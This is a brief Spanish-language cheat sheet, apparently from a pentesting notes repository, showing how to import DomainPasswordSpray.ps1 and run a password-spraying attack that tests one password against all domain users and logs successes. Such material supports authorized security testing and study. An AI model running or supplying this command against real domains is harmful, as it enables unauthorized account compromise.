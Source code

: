 # DomainPasswordSpray.ps1 Cheat Sheet

#### Password Spraying - Fuerza bruta usando una contraseña en particular a todos los usuarios del dominio
```
import-module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password <PASSWORD> -OutFile spray_success -ErrorAction SilentlyContinue
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)